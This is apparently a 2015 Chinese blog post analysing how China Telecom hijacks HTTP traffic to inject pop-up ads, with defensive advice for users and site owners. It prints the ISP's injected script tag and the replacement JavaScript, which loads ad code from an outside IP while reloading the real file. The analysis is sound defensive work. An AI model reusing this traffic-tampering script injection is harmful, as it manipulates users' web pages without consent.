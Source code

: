 ```yaml
---
layout: default
title:  "中国电信劫持HTTP流量强插广告"
date:   2015-04-15 22:50:35
categories: web
---
```


## 现象

家里装的宽带是浙江电信的，在平时用浏览器访问网页时，网页右下角经常弹出浮动广告。常见的广告是这个样子的，很违和吧？

![弹出广告截图](/images/20150415/01.png)

该广告有几个特点：

* 不管是中国还是外国网站，都有可能弹广告。
* 有些知名网站似乎没有弹过广告，比如新浪微博、Stack Overflow。
* 对某一个网站，只在每天第一次访问时弹广告，显示过一次之后，再刷新网页就不会出现了。第二天访问时还可能弹广告。
* 所有的HTTPS站都没有广告。

## 原理分析

### 广告是谁加的

一开始看过几次广告之后，以为是被访问网站自己加的广告联盟之类的代码，第一反应当然是用浏览器的去广告插件屏蔽。通过Chrome查看DOM，发现广告的嵌入代码如下，

```HTML
<script src="http://116.252.178.232:9991/ad.0.js?v=3.9411&amp;sp=9999&amp;ty=dpc&amp;sda_man=XFpdU1RJWFdZXlE=" type="text/javascript" id="bdstat"></script>
```

一般是出现在`</body>`之前，即HTML body的最后。服务器地址116.252.178.232属于广西电信。

当在几个国外网站上弹出了同样的中文广告后，我确定这不是网站自己加的广告代码。Google一下这个IP地址，普遍反映这是ISP劫持HTTP流量，插入的广告。

这种行为更准确的名称叫“[网络直投广告](http://baike.baidu.com/view/6261865.htm)”，百度百科是这样介绍的。

> 网络直投广告是基于中国电信宽带接入网，通过对用户上网行为的分析，在用户上网时、或正在上网的过程中，系统主动、定向、策略性、个性化的向用户推送广告宣传信息。并可以根据用户当前浏览的网站类型，匹配对应的行业关键字，根据行业关键字向用户推送动画、声音、视频、游戏等多媒体交互式广告内容。关键字分类：电脑、通讯、汽车、财经、医药、房产、旅游、教育、人才、美容、电影、游戏、数码等。

所以，这段代码是ISP强行插入的网络直投广告。由于用户访问所有网络都要经过ISP，ISP就有机会给任意网站加广告，把整个网络作为工具为自己牟利。搜索发现不光是电信，联通也有类似行径。某年315还曝光过，之后各地ISP有所收敛，但现在我家浙江电信还是每天都会弹。

### 如何加的广告

用浏览器访问刚才的广告嵌入代码，`http://116.252.178.237:9991/ad.0.js`内容经过格式化后如下，

```Javascript
var bcdata_sp = "";
var sda_man = "";
var bcdata_src = "0";
(function () {
    var a = function (h, f) {
        try {
            var d = document.createElement("span");
            d.innerHTML = h;
            api.writeO(d, f)
        } catch (g) {
            document.write(h)
        }
    };
    var c = function (d, f) {
        if (f) {
            f.appendChild(d);
            f.parentNode.appendChild(d)
        } else {
            var g = f || document.all || document.getElementsByTagName("*");
            var f = g[g.length - 1]
        }
        f.parentNode.appendChild(d)
    };
    var b = document.createElement("script");
    b.type = "text/javascript";
    b.src = "http://116.252.178.237:9991/main.js?ver=v48";
    c(b)
})();
```

这段引导代码在DOM上添加另一个script节点，内容为`http://116.252.178.237:9991/main.js`。`main.js`是弹出广告真正的创建者。

那么`ad.0.js`是何时插入的呢？在不同的网站上，`ad.0.js`节点出现的位置不固定，不一定总在`</body>`之前。继续用Chrome的Network工具查看每个请求的返回数据，发现网页HTML是正常的，并不包含`ad.0.js`节点。推测是某个JS被篡改了，执行的时候在DOM上又插入了广告引导代码节点。

逐个检查`.js`文件的请求，寻找包含“116.252.178.232”的文件。以某网站为例，发现`flowplayer.min.js`文件的内容不正常。该文件是网页上的视频播放器，托管在七牛CDN上。文件的URL是`http://***.qiniudn.com/static/player/flowplayer.min.js`，Chrome里显示返回的内容是这样的，

```Javascript
(function () {
    o = "http://***.qiniudn.com/static/player/flowplayer.min.js?";
    sh = "http://116.252.178.232:9991/ad.0.js?v=3.9411&sp=9999&ty=dpc&sda_man=XFpdU1RJWFdZXlE=";
    w = window;
    d = document;

    function ins(s, dm, id) {
        e = d.createElement("script");
        e.src = s;
        e.type = "text/javascript";
        id ? e.id = id : null;
        dm.appendChild(e);
    };
    p = d.scripts[d.scripts.length - 1].parentNode;
    ins(o, p);
    ds = function () {
        db = d.body;
        if (db && !document.getElementById("bdstat")) {
            if ((w.innerWidth || d.documentElement.clientWidth || db.clientWidth) > 1) {
                if (w.top == w.self) {
                    ins(sh, db, "bdstat");
                }
            }
        } else {
            setTimeout("ds()", 1500);
        }
    };
    ds();
})();
```

可以看到该文件的返回数据完全是被替换过的。这段代码首先在DOM上插入了另外一个`<script>`节点，用于重新加载真正的`flowplayer.min.js`文件。然后创建了广告引导代码节点。在Chrome中，看到`flowplayer.min.js`文件有两次请求，第二次返回的是正确的内容。

新插入的`<script>`位置在document最后一个script的父节点，由于改变了JS文件的执行顺序，所以理论上有可能影响被篡改的网页的正常功能。

关于这套广告系统具体如何选择篡改哪个JS请求，我没有进一步的调查。

### 其他劫持类型

我这里分析的只是浙江电信在目前阶段采用的插广告方法。网上能看到ISP采用的一些旧方法，包括DNS劫持、iframe劫持。

DNS劫持是，例如用户访问Google时，跳转到一个全是广告的页面。还有当访问一个无法解析的网址时，跳转到电信的网址导航站189so.cn，导航站当然是很赚钱的。

iframe劫持也是劫持HTTP流量，将被访问的网页整个包在一个iframe中加载，外面的伪造的页面插弹出广告。用户看到的效果跟本文开头的截图类似。

## 屏蔽方法

### 用户

作为普通用户，一般的建议是打电话给ISP投诉，把客服骂一顿，让ISP取消对你家账号的“特殊服务”。我没试过，也不想试，我得留着广告好看看ISP又采取了什么卑劣手段。

作为普通用户，还可以找个认识的程序员来帮助解决此事。

作为程序员，屏蔽这种广告不是难事。首先用浏览器开发者工具在找出广告引导代码的URL，如果是IP地址，就用路由器或防火墙软件封住该IP的访问；如果是域名，就修改hosts把该域名解析到127.0.0.1即可。

注意这样仅靠屏蔽IP/域名并不是真正的屏蔽，仍然有副作用。比如说网页会由于加载不到广告JS而一直处于转菊花状态，经过篡改的网页有可能功能不正常。前人给出了一些复杂的方法屏蔽广告，基本上都要自己搭代理服务器。我觉得太过复杂，不值得。在此列出几个参考方法：

* [Tomato解决电信广告劫持](http://maskv.com/technology/289.html)
* [如何对抗 ISP HTTP hijacking (阻止推送广告)](http://www.linuxsir.org/bbs/thread367305.html)
* [防治运营商HTTP劫持的终极技术手段](http://www.williamlong.info/archives/4181.html)

### 网站所有者

作为网站所有者，有没有办法彻底去除ISP强插到你网站上的广告呢？这样不管你的用户有没有屏蔽广告的能力，在访问网站时都不会看到恼人的广告。

第一个可行的办法是HTTPS化，HTTPS请求无法简单的伪造。目前由于网络安全的形势不好，很多网站都做了全站HTTPS化。虽然有一些开销，这毕竟是个最有效的办法。

目前ISP的做法是只劫持JS文件，那一个简便的方法是JS全部放到七牛CDN上，利用[七牛提供的HTTPS服务](http://kb.qiniu.com/https-support)，只把网页上的JS地址换成HTTPS的，ISP就无法伪造了。（经过在某网站上的试验，该方法目前有效。）

另一个可能的方法是在页面上增加JS代码，检测ISP插入的节点并删掉。这种方法的困难在于ISP插广告是分地区的，而且将来会升级的。作为网站所有者，只能针对已知的情况做针对处理，不一定总能有效。
